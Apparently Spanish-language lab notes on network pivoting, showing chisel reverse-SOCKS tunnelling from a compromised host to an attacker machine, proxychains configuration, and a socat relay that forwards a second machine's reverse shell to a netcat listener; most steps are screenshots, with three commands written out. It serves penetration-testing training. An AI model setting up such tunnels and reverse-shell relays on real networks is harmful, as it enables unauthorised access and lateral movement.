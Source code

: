 En la máquina 2, lo que debemos hacer es enviar el tráfico de esta máquina a la de atacante, y para ello usaremos chisel:
![[Pasted image 20230823153251.png]]
![[Pasted image 20230823153300.png]]
Ahora tenemos que ponernos en la máquina atacante con chisel a modo de servidor:
```bash
./chisel server --reverse -p 1234
```
![[Pasted image 20230823153329.png]]
Y ahora en la máquina 1 ejecutamos el chisel en modo cliente diciendo que pase por el puerto 1234 todo el tráfico remoto:
![[Pasted image 20230823163522.png]]
```bash
./chisel client 10.10.10.12:1234 R:socks
```
![[Pasted image 20230823163558.png]]
Y habremos recibido esta conexión también en la máquina atacante:
![[Pasted image 20230823163612.png]]
En la máquina 2, vamos a crear un servidor con python por el puerto 80, que trataremos de visualizar desde la máquina atacante:
![[Pasted image 20230823153731.png]]
![[Pasted image 20230823153748.png]]
Ahora que tenemos el tunel creado que nos une desde la máquina atacante a la máquina 2, debemos de configurar el proxychain de esta forma:
![[Pasted image 20230823153919.png]]
Al ser la primera máquina que conectamos, tenemos que dejar la primera línea sin comentar y la segunda comentada:
![[Pasted image 20230823153947.png]]
Y al final del todo tenemos que dejar esta línea:
![[Pasted image 20230823154006.png]]
Y en el navegador ponemos el tunel:
![[Pasted image 20230823154029.png]]
De tal forma que desde el navegador llegamos correctamente al puerto 80 de la máquina 2:
![[Pasted image 20230823163929.png]]
Ahora, si queremos llegar a esta máquina desde el terminal, debemos de especificar que queremos que el tráfico pase por el proxychains de la siguiente forma:
![[Pasted image 20230823164002.png]]
No obstante, si queremos llegar a esta máquina entablando una reverse shell, veremos que da error:
![[Pasted image 20230824101226.png]]
Esto error ocurre porque tenemos que habilitar socat en la máquina 1 para que pueda haber comunicación entre la máquina 2 y la atacante, por tanto, para seguir avanzando, tenemos que ejecutar el socat dentro de la máquina 1, de tal forma que diremos que el resto del port forwarding que nos llegue lo envíe a la máquina atacante, por tanto lo descargamos:
![[Pasted image 20230823154652.png]]
![[Pasted image 20230823154720.png]]
Nos compartimos el socat con la máquina 1:
![[Pasted image 20230823155058.png]]
![[Pasted image 20230823155123.png]]
Y ahora ejecutamos socat de esta forma, donde diremos que todo lo que reciba la máquina1 por el puerto 1111 de la interfaz 20.20.20.13 lo envíe a la máquina kali  por el puerto 111, que es donde tendremos netcat esperando conexiones:
```bash
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111
```
![[Pasted image 20230825154633.png]]
![[Pasted image 20230825154656.png]]
Y ahora si con la máquina 2 enviamos la reverse shell, debería de funcionar:
![[Pasted image 20230825154713.png]]


